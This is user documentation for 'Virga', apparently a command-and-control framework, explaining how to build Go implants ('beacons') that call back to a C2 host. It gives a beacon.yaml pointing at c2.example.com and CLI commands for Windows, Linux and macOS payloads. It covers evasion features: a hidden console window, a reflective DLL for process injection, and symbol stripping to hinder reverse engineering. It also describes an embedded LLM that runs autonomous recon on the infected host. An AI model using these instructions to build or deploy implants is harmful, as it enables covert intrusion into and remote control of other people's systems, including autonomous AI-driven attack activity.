

# Beacon Generation

This guide provides a detailed overview of how to generate custom beacons using the Virga CLI.

## Generation Architecture

Beacons are Go-based implants that are cross-compiled by the Virgaer. Key configuration details, such as C2 endpoints and behavioral settings, are embedded directly into the binary at compile time. This is achieved using Go's `-ldflags` linker option, which creates a self-contained executable with no external configuration files.



## Generation Methods

There are two primary ways to generate a beacon, which can be combined:

1.  **Configuration File (Recommended)**: Create a `beacon.yaml` file to define all settings. This is the most powerful and flexible method, especially for complex or AI-enabled beacons.
2.  **Command-Line Flags**: Provide settings directly on the command line. These are useful for quick, simple beacons or for overriding specific values in a configuration file.

### Using a Configuration File

This is the recommended approach for most use cases.

**Example `beacon.yaml`:**
```yaml
beacon:
  c2:
    host: c2.example.com
    port: 443
    protocol: https
    uri_path: /api/v1/tasks
  behavior:
    sleep_time: 60
    jitter: 20
    user_agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
  target:
    os: windows
    arch: amd64
    format: exe

llama: # AI-specific settings
  enabled: true
  autonomous:
    enabled: true
    max_iterations: 25
    initial_tasks:
      - type: system_recon
        description: "Gather initial system, user, and network information."
  model:
    context: 8192
    max_tokens: 2048
    temperature: 0.3
  log_enabled: false

implant: # Implant-specific settings
  log_enabled: false
  log_level: "info"

output:
  path: "build/windows_implant_v1.exe"
```

Then, run the `generate` command pointing to your config file:

```bash
virga> generate beacon --config beacon.yaml
[*] Generating exe beacon for https/c2.example.com targeting windows with Llama AI integration...
[*] Binary payload saved to: /path/to/project/build/windows_implant_v1.exe
```

### Using Command-Line Flags

Flags are perfect for simple beacons or for overriding settings in a `beacon.yaml` file.

```bash
# Generate a basic beacon for 64-bit Windows
virga> generate beacon --os windows --arch amd64 --http 10.0.0.5 --port 8080 --output beacon.exe

# Use a config file but override the sleep time and output path
virga> generate beacon --config beacon.yaml --sleep 300 --output beacon-long-sleep.exe
```

## Available CLI Flags

**Core Options:**
- `--config <path>`: Path to the YAML configuration file.
- `--os <os>`: Target OS (`windows`, `linux`, `darwin`). **(Required)**
- `--arch <arch>`: Target architecture (`amd64`, `386`, `arm64`). **(Required)**
- `--format <format>`: Output format (`exe`, `dll`, `elf`, etc.). Defaults based on OS.
- `--output <path>`: Path to save the generated file. Default: `payload-[os]-[arch].[format]`

**C2 Connection Options:**
- `--http <host>`, `--https <host>`, `--dns <host>`, `--mtls <host>`: Set C2 protocol and host address.
- `--port <port>`: C2 listener port.
- `--uri <path>`: URI path for beacon check-ins.

**Behavior Options:**
- `--sleep <seconds>`: Beacon sleep time in seconds (Default: 60).
- `--jitter <percent>`: Sleep time jitter percentage (Default: 20).
- `--user-agent <string>`: Custom User-Agent for HTTP/S beacons.

**AI & Logging Options:**
- `--enable-llama`: Embeds the LLM model. Requires the model to be downloaded on the server.
- `--no-llama`: Explicitly disables Llama, overriding a `config.yaml` setting.
- `--llama-log`: Enables verbose logging for AI operations within the implant.
- `--implant-log`: Enables general logging for the implant.
- `--implant-log-path <path>`: Sets a custom path for the implant's log file.
- `--implant-log-level <level>`: Sets the log level (`debug`, `info`, `warn`, `error`).

## Platform-Specific Generation

Cross-compilation is handled automatically. You can generate a beacon for any supported OS from your development machine.

### Windows
Generates a `.exe` or `.dll` file. Beacons run stealthily without a console window by default (unless logging is enabled).
```bash
# Generate a 64-bit DLL for process injection
virga> generate beacon --os windows --arch amd64 --format dll --output reflective_beacon.dll
```

### Linux
Generates an ELF binary.
```bash
# Generate a beacon for a 64-bit ARM Linux server (e.g., AWS Graviton)
virga> generate beacon --os linux --arch arm64 --output arm_server_agent
```

### macOS (darwin)
Generates a Mach-O binary.
```bash
# Generate for Apple Silicon with AI enabled
virga> generate beacon --os darwin --arch arm64 --enable-llama --output mac_ai_agent
```

## Security & Obfuscation

- **Configuration Embedding**: All configuration is embedded via `-ldflags`, leaving no plain text config on disk.
- **Symbol Stripping**: Binaries are stripped of debug information (`-s -w` flags) to reduce size and hinder reverse engineering.
- **Build Variance**: Each compilation produces a binary with a unique hash.

> **Note**: Advanced obfuscation techniques like string encryption and API hashing are planned for future releases.

## Troubleshooting

- **Generation Fails**: Ensure you have specified `--os` and `--arch`. Check that the C2 server is running and reachable.
- **LLM Model or Library Not Found**: If using `--enable-llama`, you must first download the required AI model and platform-specific libraries on the Virgaer. Run the following command in the project root:
  ```bash
  make download-llama-deps
  ```
- **Cross-Compilation Errors**: When building for a different OS with CGO enabled (which is required for Llama), you may need to install a cross-compiler toolchain. For example, to build for Windows from a Linux host, you may need `mingw-w64`. The build process will typically provide a helpful error message if a required toolchain is missing.
